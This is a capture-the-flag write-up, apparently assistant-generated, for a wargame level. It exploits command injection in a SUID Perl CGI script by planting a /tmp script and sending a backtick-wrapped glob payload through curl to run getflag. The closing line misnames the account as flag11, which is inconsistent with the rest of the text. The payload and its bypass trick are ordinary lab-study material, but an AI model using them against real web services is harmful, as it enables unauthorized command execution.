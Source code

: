 Here is the **Level12 Solution Write-up** based on your exploit steps:

### Solution

1. **Check files in home directory.**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
	```

	This is a **SUID Perl script** that runs as `flag12`.

2. **Analyze the script source code:**

	```perl
	#!/usr/bin/env perl
	use CGI qw{param};
	print "Content-type: text/html\n\n";

	sub t {
		$nn = $_[1];
		$xx = $_[0];
		$xx =~ tr/a-z/A-Z/;        # convert to uppercase
		$xx =~ s/\s.*//;           # strip after first space
		@output = `egrep "^$xx" /tmp/xd 2>&1`;  # run egrep with unsanitized input
		foreach $line (@output) {
			($f, $s) = split(/:/, $line);
			if($s =~ $nn) {
				return 1;
			}
		}
		return 0;
	}

	sub n {
		if($_[0] == 1) {
			print("..");
		} else {
			print(".");
		}
	}

	n(t(param("x"), param("y")));
	```

	The input `param("x")` is used inside backticks:

	```perl
	@output = `egrep "^$xx" /tmp/xd 2>&1`;
	```

	This leads to **command injection**, since Perl's backticks execute shell commands.

3. **Create a malicious command:**

	```bash
	echo 'getflag>/tmp/flag12' > /tmp/EXPLOIT
	chmod +x /tmp/EXPLOIT
	```

4. **Trigger the exploit via `curl`:**

	```bash
	curl "http://localhost:4646/level12.pl?x=\`/*/EXPLOIT\`"
	```

	This injects `` `/tmp/EXPLOIT` `` into the command.

	* Why this works:

		* Perl executes:

			```bash
			`egrep "^`/*/EXPLOIT`" /tmp/xd`
			```
		* Which becomes:

			```bash
			`egrep "^<output of /tmp/EXPLOIT>" /tmp/xd`
			```
		* But `/tmp/EXPLOIT` contains `getflag>/tmp/flag12`, so the command is executed before `egrep`.

	View the Flag

	```bash
	cat /tmp/flag12
	```

	Output:

	```
	Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
	```

	You’ve successfully executed `getflag` with `flag11`’s privileges.
